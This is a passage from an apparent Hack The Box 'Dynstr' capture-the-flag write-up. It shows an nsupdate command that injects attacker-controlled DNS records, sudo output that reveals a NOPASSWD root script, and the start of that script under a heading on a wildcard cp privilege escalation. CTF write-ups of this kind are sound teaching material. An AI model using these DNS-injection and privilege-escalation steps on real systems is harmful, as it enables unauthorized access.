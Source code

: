 ```bash
nsupdate -k /etc/bind/infra.key
update add gotcha.infra.dyna.htb. 86400 A 10.10.15.71
<Enter>
update add 71.15.10.10.in-addr.arpa. 300 PTR gotcha.infra.dyna.htb.
send
```

![](screenshots/got-user.png)

## Wildcard in `cp` Command

user "bindmgr" can run `/usr/local/bin/bindmgr.sh` as any user with NOPASSWD as sudo.
```bash
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
```

**`/usr/local/bin/bindmgr.sh` script breakdown**

This code checks `.version` file in current directory and its content
```bash
#!/bin/bash

BINDMGR_CONF=/etc/bind/named.conf.bindmgr
BINDMGR_DIR=/etc/bind/named.bindmgr

indent() { sed 's/^/    /'; }

echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi
```
